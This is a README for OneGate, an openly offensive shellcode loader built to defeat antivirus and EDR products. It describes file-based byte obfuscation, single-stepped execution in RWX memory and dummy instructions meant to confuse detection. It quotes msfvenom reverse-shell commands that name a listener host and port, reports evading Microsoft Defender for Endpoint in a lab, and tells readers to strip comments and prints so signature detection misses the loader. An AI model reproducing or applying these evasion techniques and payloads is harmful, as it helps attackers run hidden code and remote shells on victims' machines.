

# OneGate
Yet another shellcode loader - but a sneaky one


This is a combination of my earlier shellcode obfuscation project [WhenAPayloadCalls](https://github.com/b0bd0g/WhenAPayloadCalls) but now with a custom shellcode loader which aims to defeat antivirus and EDR solutions.

The intent was to use the most obvious WinAPIs possible while also using the least amount of evasion techniques and still have it defeat AV/EDR. As such it uses:

- VirtualAlloc to alloate RWX memory
- No use of VirtualProtect to flip memory protections - just does everything inside RWX memory
- Uses CreateThread to run
- No sandbox evasion

**NOTE**: This is meant to be more of a proof of concept of the technique as opposed to an off the shelf solution, so don't expect to be able to pick it up and have it work for everything

## How it works

There are two parts to OneGate - the constructor and the executor (OneGate):

### Constructor

Get some shellcode and put it in the `const unsigned char Payload[] {}` located in `constructor.c`. There are already two examples in there for a calc.exe shellcode and a reverse shell, both generated by MSFVenom.

The basic method of obfuscating the shellcode comes from WhenAPayloadCalls. This is a shellcode obfuscation technique using a file which already exists on the target computer. You will need an **EXACT** byte for byte copy of the file you are targeting. As such this is not meant as a general "out of the box" obfuscation technique, but rather one that is specifically tailored to that specific target system. It is also possible to upload your own file to the target system and use that to generate your payload.

Pick a file on the attacker's machine (this is why you need an exact byte for byte copy of a file on the victim's machine) that you want to use. The program will iterate through the chosen file and look for the bytes in the shellcode, noting down the position of each one. For example if the first byte is `FC`, it will search the target file for the byte `FC` and print out the position in the target file at which it is found (on my system using the target file `notepad.exe` the byte `FC` is the `266`th byte in notepad). If the program cannot find the byte it will say so. This generates the `Positions[]` array.

Using the Zydis (https://github.com/zyantific/zydis) it will iterate through the shellcode and determine the number of bytes in each instruction generating an array called `bytesPerLine[]`.

A sample output of the constructor is as follows:


### OneGate (the executor)

OneGate first allocates a memory page and fills it with random instructions. It randomly allocates a starting position for the shellcode within this memory page so that the shellcode doesn't start in the same place each time.

It then opens the file that is being used to perform the byte deobfuscation and iterates through `Postitions[]` and only decrptys the number of bytes needed for that particular instruction. This way only the exact bytes required for the next instruction are ever revealed at any given time. These bytes are written to their correct plce in the memory page (overwriting what is already there) and executed using single setpping. Once an instruction is executed the original bytes that were overwritten are written back to their place in the memory page. Therefore not only are the bytes only exposed for the minimum amount of time, but unless the defence system can catch the modification in time, it will appear as though nothing changed on the memory page at that particular address.

To defeat any register based pattern recognition which may be used by EDRs, at random intervals OneGate generates a random set of instructions and executes them - these are referred to as dummy instructions. The current rate is 2% but this can be modified easily. A stable of instructions are held in the `instructions[][]` array. It will select a random number of instructions to use for each given dummy set, so that the number of dummy instructions is not always the same. Before executing the dummy instructions, it saves the thread context of the shellcode execution. This enables the dummy instructions to modify them at will. The tread context is then restored and execution of the shellcode continues as if nothing happened.

Currently the `instructions[][]` array only takes instructions which are three bytes in length. There is also a hardcoded value in the `CreateDummy()` function which only allows it to deal with three byte instructions. The size of the array and the hard coded instructions can be changed at will to avoid signature based detections, however no testing has been conducted with instructions larger than 3 bytes in length. At the moment the dummy instructions just modify values in the registers using things like `inc`, `sub`, `xor` etc.

OneGate takes a **LOOOOONG** time to run payloads, so be patient after you launch it. On my VM with very little system resources it takes about 3 minutes to spawn a calculator and 20 minutes to get a reverse shell connection. In the lab environment (see Evasion) it took about 6 minutes to get a reverse shell.

There are two `.c` files in the Executor project folder. One is an example with running calc.exe and the other is a reverse shell. You will need to set one as "Exclude From Project" otherwise it will not compile.

### Shortfall of deobfusaction technique

One shortfall of this technique is that unless the RIP points to a particular instruction it will not be deobfuscated. For example the last few instructions of `msfvenom -p windows/x64/exec CMD=calc.exe` are:
```
106:    41 89 da                mov    r10d,ebx
109:    ff d5                   call   rbp
10b:    63 61 6c                movsxd esp,DWORD PTR [rcx+0x6c]
10e:    63 00                   movsxd eax,DWORD PTR [rax] 
```

Ordinarly `call rbp` would trigger the two instructions after it (these spell out "calc" which tells it what to run), however as these are still obfuscated when `call rbp` is executed nothing happens. Therefore we need to unmask these instructions manually. At present it is done in a lazy way - it just reveals these instructions at all times. Two special arrays are created:
```
const unsigned char second_last[] = { 0x63, 0x61, 0x6c };
const unsigned char last[] = { 0x63, 0x00 };
```

One the first run of the vectored exception handler it writes them to the allocated memory space:
```
memcpy((DWORD64)baseAddress + 0x10B, second_last, 3);
memcpy((DWORD64)baseAddress + 0x10E, last, 2);
```

These are not overwritten as only instructions that are deobfuscated are overwritten again.

A better way to handle this could be just in time deobfuscation, where there is a check to see if the RIP is at offset `109` and then have it deobfuscate 7 bytes as opposed to only 2. This has not been implemented here because as mentioned above this is a proof of concept.

## Evasion

This was tested in [Altered Security](https://www.alteredsecurity.com/)'s lab environment (shout out to Nikhil for letting me test it on there) which had a machine running Microsoft Defender for Endpoint (Microsoft's EDR solution). OneGate was infiltrated to the target machine and run from disk without using any sort of in memory PE loading techniques. Using the payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.91 LPORT=9000` built on `notepad.exe` a reverse connection was successfully established to the listener machine.



An analysis of the MDE dashboard shows only one detection by MDE which had to do with a compromised account and the dumping of a SAM hive (this was a shared environment so other people were doing other things). This detection was present prior to running OneGate. Of interest is the fact that MDE had flagged the `jumpone$` account shown in the picture below as being compromised - this was the same account used to sign in to deploy OneGate on the target machine meaning that even with a flagged account MDE did not detect the execution of the reverse shell.


While not definitive, it is believed that the fact that OneGate takes so long to run the shellcode helps with defeating AV/EDR sandboxing. Seeing as the AV/EDR cannot run OneGate in a sandbox forever, it runs it for however long it can and determines that nothing malicious is going on and lets it run in the production environment. The prevents the need for sandbox detection and evasion techniques to have to built into the loader which may be detected.

### Other EDRs

If anyone gets the opportunity to test this against other EDRs please drop me a line and let me know how it goes. I really wanted to see how this would go up against Crowdstrike especially, but wasn't able to get access to an environment where it was avialable.

### BIG NOTE
Currently OneGate prints a lot of things that I had in there for debugging purposes. I have left these prints in so that you can see what OneGate is doing if you decide to single step it through a debugger. I have also left comments in there so that you (and I when I come back to it six months later) can hopefully make sense of my code.

In order to get it past defences, **remove all prints and comments from the code** (you can leave error printing). With everything still in there even good old basic Windows Defender will trigger a signature based detection as soon as it touches disk (I think this has to do with the comment containing the string "msfvenom").


## Known Issues

OneGate (the executor part) will randomly throw an access violation error. I think this has something to do with the random allocation of the payload starting point and the location of the address where any dummy code is held but I have not been able to figure it out yet. If you get an access violation error, just run OneGate again.
